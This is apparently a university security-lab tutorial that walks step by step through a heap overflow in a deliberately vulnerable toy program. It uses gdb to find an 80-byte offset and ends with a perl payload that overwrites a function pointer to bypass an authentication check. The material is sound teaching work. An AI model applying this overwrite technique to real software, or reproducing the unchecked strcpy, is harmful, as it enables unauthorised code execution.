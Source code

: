Tutorial:  Heap overflow exploit - Function pointers
====================================================

Introduction
-------------

Download the Kali VM from this link (Same than NFS - Metasploitable)

.. centered:: https://transvol.sgsi.ucl.ac.be/download.php?id=cdb293424a0498c7

| Working directory: ``~/SecurityClass/Tutorial-Extra``
| Connection:

============ ============
**username** **password**
============ ============
admin        nimda
============ ============


In this exercise we will exploit a heap-based vulnerabilities to execute
a function that we should not be allowed to.

The ``exploit_func`` program takes password as a parameter and displays
*Auth : success* if it is correct, *Auth : failed* otherwise. For the
sake of simplicity we always deny every password but assume that there
is one.

If we take a look at the ``exploit_func.c`` file we can see two
structures as well as two functions, one of which is supposedly called
on authentication success. This will be our aim for this lab.

Exercise
--------

Finding vulnerable code
~~~~~~~~~~~~~~~~~~~~~~~

❓ **Can you spot which line of code is vulnerable to a heap-based overflow ?**


❓ **Try to see how much bytes your can put as parameter before crashing the
program.**

.. raw:: html

   <div class="collapse tp1_s0" id="tp1_0_1">
          <div class="panel panel-primary">
        <div class="panel-body">

The following line ``strcpy(d->passwd, argv[1]);``\ is vulnerable to a
heap-overflow if the length of the input is not checked first which is
the case here.

We can try the program with a long input and see if we can get a
segmentation fault.

.. code:: console

   kali@kali:~/$ ./exploit_func password
   data is at 0x804d1a0, fp is at 0x804d1f0
   Auth : failed
   kali@kali:~/$ ./exploit_func $(perl -e 'print "A"x120')
   data is at 0x804d1a0, fp is at 0x804d1f0
   Segmentation fault

.. raw:: html

   </div>
   </div>
   </div>


Locate the heap in memory
~~~~~~~~~~~~~~~~~~~~~~~~~

❓ **Using** ``gdb`` **find the allocation instructions for the two structures and
how much bytes are allocated.**

❓ **Using** ``gdb`` **can you find a way to locate the address of the heap?**

.. hint:: **💡 You can put a breakpoint somewhere in the program and see the
          state of the registers as well as other usefull information regarding
          the stack and the heap. Once you find the heap you can take a look at
          its content easily.**

.. raw:: html

   <div class="collapse tp1_s0" id="tp1_0_2">
          <div class="panel panel-primary">
        <div class="panel-body">


Using gdb we can disassemble the main function to see where the two
buffers are allocated.

.. code:: console

   (gdb) disass main
   Dump of assembler code for function main:
      0x080491e8 <+0>: lea    ecx,[esp+0x4]
      0x080491ec <+4>: and    esp,0xfffffff0
      0x080491ef <+7>: push   DWORD PTR [ecx-0x4]
      0x080491f2 <+10>:    push   ebp
      0x080491f3 <+11>:    mov    ebp,esp
      0x080491f5 <+13>:    push   esi
      0x080491f6 <+14>:    push   ebx
      0x080491f7 <+15>:    push   ecx
      0x080491f8 <+16>:    sub    esp,0x1c
      0x080491fb <+19>:    call   0x80490d0 <__x86.get_pc_thunk.bx>
      0x08049200 <+24>:    add    ebx,0x2e00
      0x08049206 <+30>:    mov    esi,ecx
      0x08049208 <+32>:    sub    esp,0xc
      0x0804920b <+35>:    push   0x40
      0x0804920d <+37>:    call   0x8049050 <malloc@plt>
      0x08049212 <+42>:    add    esp,0x10
      0x08049215 <+45>:    mov    DWORD PTR [ebp-0x1c],eax
      0x08049218 <+48>:    sub    esp,0xc
      0x0804921b <+51>:    push   0x4
      0x0804921d <+53>:    call   0x8049050 <malloc@plt>
      0x08049222 <+58>:    add    esp,0x10
      0x08049225 <+61>:    mov    DWORD PTR [ebp-0x20],eax
      0x08049228 <+64>:    mov    eax,DWORD PTR [ebp-0x20]
      0x0804922b <+67>:    lea    edx,[ebx-0x2e43]
      0x08049231 <+73>:    mov    DWORD PTR [eax],edx
      0x08049233 <+75>:    sub    esp,0x4
      0x08049236 <+78>:    push   DWORD PTR [ebp-0x20]
      0x08049239 <+81>:    push   DWORD PTR [ebp-0x1c]
      0x0804923c <+84>:    lea    eax,[ebx-0x1fdb]
      0x08049242 <+90>:    push   eax
      0x08049243 <+91>:    call   0x8049030 <printf@plt>
      0x08049248 <+96>:    add    esp,0x10
      0x0804924b <+99>:    mov    eax,DWORD PTR [esi+0x4]
      0x0804924e <+102>:   add    eax,0x4
      0x08049251 <+105>:   mov    edx,DWORD PTR [eax]
      0x08049253 <+107>:   mov    eax,DWORD PTR [ebp-0x1c]
      0x08049256 <+110>:   sub    esp,0x8
      0x08049259 <+113>:   push   edx
      0x0804925a <+114>:   push   eax
      0x0804925b <+115>:   call   0x8049040 <strcpy@plt>
      0x08049260 <+120>:   add    esp,0x10
      0x08049263 <+123>:   mov    eax,DWORD PTR [ebp-0x20]
      0x08049266 <+126>:   mov    eax,DWORD PTR [eax]
      0x08049268 <+128>:   call   eax
      0x0804926a <+130>:   mov    eax,0x0
      0x0804926f <+135>:   lea    esp,[ebp-0xc]
      0x08049272 <+138>:   pop    ecx
      0x08049273 <+139>:   pop    ebx
      0x08049274 <+140>:   pop    esi
      0x08049275 <+141>:   pop    ebp
      0x08049276 <+142>:   lea    esp,[ecx-0x4]
      0x08049279 <+145>:   ret    
   End of assembler dump.
   (gdb)

We find two calls to the malloc function (line 37, 53), each have
argument pushed before the call (line 35, 51). We can see how much
memory are allocated for each buffer by looking at the argument.

For the first one it is ``0x40 = 64`` and for the second one
``0x4 = 4``. (The second data structure consists of a pointer which on a
32-bit system is 32 bits or 4 bytes)

To locate the heap in memory we can set a breakpoint in the main
function somewhere after the two mallocs. Address ``0x0804925b`` is
suitable for example. We can now run the program and take a look at the
registers and process informations.

.. code:: console

   (gdb) b *0x0804925b
   Breakpoint 1 at 0x0804925b: file exploit_func.c, line 40.
   (gdb) info proc map
   process 2265
   Mapped address spaces:

       Start Addr   End Addr       Size     Offset objfile
        0x8048000  0x804b000     0x3000        0x0 /home/kali/Documents/Security/LINGI2144-2020-2021/heap-exploit/function_pointer/exploit_func
        0x804b000  0x804c000     0x1000     0x2000 /home/kali/Documents/Security/LINGI2144-2020-2021/heap-exploit/function_pointer/exploit_func
        0x804c000  0x804d000     0x1000     0x3000 /home/kali/Documents/Security/LINGI2144-2020-2021/heap-exploit/function_pointer/exploit_func
        0x804d000  0x806f000    0x22000        0x0 [heap]
       0xb7dd7000 0xb7fb5000   0x1de000        0x0 /usr/lib/i386-linux-gnu/libc-2.30.so
       0xb7fb5000 0xb7fb7000     0x2000   0x1dd000 /usr/lib/i386-linux-gnu/libc-2.30.so
       0xb7fb7000 0xb7fb9000     0x2000   0x1df000 /usr/lib/i386-linux-gnu/libc-2.30.so
       0xb7fb9000 0xb7fbb000     0x2000        0x0 
       0xb7fd0000 0xb7fd2000     0x2000        0x0 
       0xb7fd2000 0xb7fd5000     0x3000        0x0 [vvar]
       0xb7fd5000 0xb7fd6000     0x1000        0x0 [vdso]
       0xb7fd6000 0xb7ffe000    0x28000        0x0 /usr/lib/i386-linux-gnu/ld-2.30.so
       0xb7ffe000 0xb7fff000     0x1000    0x27000 /usr/lib/i386-linux-gnu/ld-2.30.so
       0xb7fff000 0xb8000000     0x1000    0x28000 /usr/lib/i386-linux-gnu/ld-2.30.so
       0xbffdf000 0xc0000000    0x21000        0x0 [stack]

On the fourth line we can see that the heap is located at the address
``0x804d000``

.. raw:: html

   </div>
   </div>
   </div>

Locate the two structures
~~~~~~~~~~~~~~~~~~~~~~~~~

❓ **Using** ``gdb`` **can you locate the address of the two buffers?**

.. hint:: **💡 Recall that the second structure is a pointer to a function so
          maybe you should look at the addresses of both functions to see any
          resemblance..**

❓ **Find what's the distance between the two structures in memory.**

.. raw:: html

   <div class="collapse tp1_s0" id="tp1_0_3">
          <div class="panel panel-primary">
        <div class="panel-body">

Now that we found the heap location we can display its content and see
if we can find the two structures :

.. code:: console

   gdb-peda$ x/120x 0x804d000
   0x804d000:  0x00000000  0x00000000  0x00000000  0x00000191
   [...]
   0x804d190:  0x00000000  0x00000000  0x00000000  0x00000051
   0x804d1a0:  0x41414141  0x00000000  0x00000000  0x00000000
   0x804d1b0:  0x00000000  0x00000000  0x00000000  0x00000000
   [...]
   0x804d1e0:  0x00000000  0x00000000  0x00000000  0x00000011
   0x804d1f0:  0x080491bd  0x00000000  0x00000000  0x00000411
   0x804d200:  0x61746164  0x20736920  0x30207461  0x34303878
   0x804d210:  0x30613164  0x7066202c  0x20736920  0x30207461
   0x804d220:  0x34303878  0x30663164  0x0000000a  0x00000000
   0x804d230:  0x00000000  0x00000000  0x00000000  0x00000000

We can spot our first buffer, our input, located at address
``0x804d1a0``\ and a bit further the second structure at address
``0x804d1f0``.

How do we know where the second strucutre is ? If we list the denied
function we can see the address of its first instruction :

.. code:: console

   (gdb) disass denied
   Dump of assembler code for function denied:
      0x080491bd <+0>: push   ebp
      0x080491be <+1>: mov    ebp,esp
      0x080491c0 <+3>: push   ebx
      0x080491c1 <+4>: sub    esp,0x4
      0x080491c4 <+7>: call   0x804927a <__x86.get_pc_thunk.ax>
      0x080491c9 <+12>:    add    eax,0x2e37
      0x080491ce <+17>:    sub    esp,0xc
      0x080491d1 <+20>:    lea    edx,[eax-0x1fe9]
      0x080491d7 <+26>:    push   edx
      0x080491d8 <+27>:    mov    ebx,eax
      0x080491da <+29>:    call   0x8049060 <puts@plt>
      0x080491df <+34>:    add    esp,0x10
      0x080491e2 <+37>:    nop
      0x080491e3 <+38>:    mov    ebx,DWORD PTR [ebp-0x4]
      0x080491e6 <+41>:    leave  
      0x080491e7 <+42>:    ret    
   End of assembler dump.

We find the address ``0x080491bd`` which is the one appearing on the
heap at address ``0x804d1f0``.

We can now easily find the offset between the two structures :

.. code:: console

   (gdb) p/d 0x804d1f0 - 0x804d1a0
   $1 = 80

The offset is 80 because we have a buffer of 64 bytes and 16 bytes of
padding. To ensure that it is the correct offset we can run the program
in GDB with an offset of 80 and 4 additionnal recognizable bytes. (ABCD,
BBBB, ...)

.. code:: console

   (gdb) run $(perl -e 'print "A"x80 . "BCDE"')
   Stopped reason: SIGSEGV
   0x45444342 in ?? ()

We can see the offset is correct by looking at the address that caused
the segmentation fault.

.. raw:: html

   </div>
   </div>
   </div>

Crashing the program
~~~~~~~~~~~~~~~~~~~~

Now that you have found the distance between the two structures you
should be able to crash the program with control. To see if you
calculated your offset correctly you can open ``gdb`` and run it with a
string with the length of your offset and some distinguishable bytes.
You should be able to a segmentation fault with the four
dinstinguishable bytes as the address. If this is correct you just need
to replace the four bytes by a useful address, ``allowed`` for example.

❓ **Find the address of the** ``allowed`` **function.**

❓ **Execute the** ``allowed`` **function using your exploit.**

.. raw:: html

   <div class="collapse tp1_s0" id="tp1_0_4">
          <div class="panel panel-primary">
        <div class="panel-body">

Just like the ``denied`` function we can find the address of the
``allowed function`` by disassembling it.

.. code:: console

   (gdb) disass allowed
   Dump of assembler code for function allowed:
      0x08049192 <+0>: push   ebp
      0x08049193 <+1>: mov    ebp,esp
      0x08049195 <+3>: push   ebx
      0x08049196 <+4>: sub    esp,0x4
      0x08049199 <+7>: call   0x804927a <__x86.get_pc_thunk.ax>
      0x0804919e <+12>:    add    eax,0x2e62
      0x080491a3 <+17>:    sub    esp,0xc
      0x080491a6 <+20>:    lea    edx,[eax-0x1ff8]
      0x080491ac <+26>:    push   edx
      0x080491ad <+27>:    mov    ebx,eax
      0x080491af <+29>:    call   0x8049060 <puts@plt>
      0x080491b4 <+34>:    add    esp,0x10
      0x080491b7 <+37>:    nop
      0x080491b8 <+38>:    mov    ebx,DWORD PTR [ebp-0x4]
      0x080491bb <+41>:    leave  
      0x080491bc <+42>:    ret    
   End of assembler dump.

Here the address is ``0x08049192``.

To execute the ``allowed`` function we just need to replace the 4 bytes
after the offset by the address of the ``allowed`` function. (In little
endian)

.. code:: console

   kali@kali:~/$ ./exploit_func $(perl -e 'print "A"x80 . "\x92\x91\x04\x08"')
   data is at 0x804d1a0, fp is at 0x804d1f0
   Auth : success

.. raw:: html

   </div>
   </div>
   </div>

.. raw:: html

   <?php
         if($good) {
            //nothing
         } else {
            echo '<script type="text/javascript">',
                     'updateSol("tp1_0_1 tp1_0_4 tp1_0_2 tp1_0_3",".tp1_s0","crashing-the-program");',
                  '</script>';
            include "../_static/solution.html";
         }
   ?>